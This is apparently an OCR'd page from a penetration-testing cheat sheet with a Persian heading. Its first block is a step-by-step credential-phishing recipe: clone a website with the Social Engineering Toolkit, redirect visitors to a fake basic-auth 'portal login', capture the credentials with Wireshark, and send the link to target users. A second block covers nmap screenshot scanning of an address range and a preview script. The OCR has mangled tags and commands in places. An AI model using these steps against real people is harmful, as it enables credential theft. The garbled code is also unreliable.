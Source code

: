 ```text
The steps below will clone a website and redirect after 3 seconds to
another page requiring basic authentication. It has proven very useful for
collecting credentials during social engineering engagements.

1. Start Social Engineering Toolkit (SET)
    /pentest/exploits/set/./set
2. Through SET, use the 'Website Attack Vector' menu to clone your
    preferred website. ' Do not close SET '
3. In a new terminal create a new directory (lowercase L)
    mkdir /var/www/1
4. Browse to SET directory and copy the cloned site
    cd /pentest/exploits/set/src/web clone/site/template/
    cp index.html /var/www/index.html
    cp index.html /var/www/1/index.html
5. Open /var/www/index.html and add tag between head tags
    meta http-equiv="refresh"
content="3;url=http:// domainlip /1/index.html"/
6. Create blank password file to be used for basic auth
    touch /etc/apache2/.htpasswd
7. Open /etc/apache2/sites-available/default and add:
    Directory /var/www/1
        AuthType Basic
        AuthName "PORTAL LOGIN BANNER"
        AuthUserFile /etc/apache2/.htpasswd
        Require user test
    /Directory
8. Start Apache2
    /etc/init.d/apache2 start
9. Start Wireshark and add the filter:
    http.authbasic
10. Send the following link to your target users
    http:// domainlip /index.html
```

## خودکار سازی فرآیند عکس از صفحه وب

### با استفاده از nmap

```text
Install dependencies:
    wget http://wkhtmltopdf.googlecode.com/files/wkhtmltoimage-0.11.0 rc1-
    static-i386.tar.bz2
    tar -jxvf wkhtmltoimage-0.11.0 rc1-statlc-i386.tar.bz2
    cp wkhtmltoimage-i386 /usr/local/bin/

Install Nmap module:
    git clone git://github.com/SpiderLabs/Nmap-Tools.git
    cd Nmap-Tools/NSE/
    cp http-screenshot.nse /usr/local/share/nmap/scripts/
    nmap --script-updatedb

OS/version detection using screenshot script (screenshots saved as .png):
    nmap -A -script=http-screenshot -p80,443 1.1.1.0/24 -oA nmap-
    screengrab

Script will generate HTML preview page with all screenshots:
#!/bin/bash
printf " HTHL.- BODY BR "
preview.html
ls -1 '.png I awk -F : ' {print $1":"$2"\n BR- IMG SRC=\""$1"%3A"$2"\"
width=400 BR BR ")' preview. html
printf " /BODY /HTML. " preview. html
```